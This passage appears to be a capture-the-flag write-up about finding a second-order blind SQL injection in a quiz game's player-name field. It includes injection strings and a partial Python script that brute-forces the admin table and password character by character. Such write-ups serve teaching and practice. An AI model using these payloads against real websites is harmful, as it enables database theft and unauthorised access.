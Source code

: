 `There is 14 other player(s) with the same name as you!`

I started to imagine what SQL query might retrieve that information:

```sql
SELECT count(*) FROM sessions WHERE name = 'grinch';
```

I changed my name to `grinch' AND 1=1;--`, completed the quiz... and got the same response!

{F1133306}

I then changed my name to `grinch' AND 1=2;--`, completed the quiz, and was told that there were 0 other players with my name. Se we now had a blind SQLi attack and a 1 byte difference -- 14 vs 0 -- that we could use for our boolean checks. 

Writing a script for this would be tricky because this is a second order SQL injection: we first have to set the payload, then trigger the payload with a second request. To add insult to injury, the response time on this challenge is *abyssmal*. Nevertheless, I developed a script to perform substring character brute forcing to ascetain the table, columns, and data needed to access the admin section. 

```python
import requests

url1 = 'https://hackyholidays.h1ctf.com/evil-quiz' #POST
url2 = 'https://hackyholidays.h1ctf.com/evil-quiz/score' #GET

#threshold = 1953 # create an dict with thresold values, if we have two values

alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789~`!@#$%^*()-_=+[{]}\|;:,/?"

s = requests.Session()
cookie_obj = requests.cookies.create_cookie(domain='hackyholidays.h1ctf.com',name='session',value='f0dd61e4a671f34f123e36e0b8f2727c')
s.cookies.set_cookie(cookie_obj)
pos = 1
threshold = 0
out = ''
while True:
	found = 0
	for c in alphabet:
		
		# blind sqli brute force 1: find a table
		# select table_name from information_schema.tables where table_schema=database() limit 1
		# discovered table named 'admin'
		
		# blind sqli brute force 2: find columns in admin table 
		# select column_name from information_schema.columns where table_name='admin'
		# discovered columns id, password, username in table 'admin'
		
		# blind sqli brute force 3: find username in admin table
		# select username from admin where id='1'
		# discovered username 'admin'
		
		# blind sqli brute force 4: find password in admin table
		# select password from admin where username='admin'
		# discovered password 'S3creT_p4ssw0rd-$'
		
		payload = "grinch' AND hex(substring((select password from admin where username='admin'),%s,1))=hex('%s');--" % (str(pos), c)
		
		params = {"name":payload}

		s.post(url1, data=params)
		r2 = s.get(url2) 
```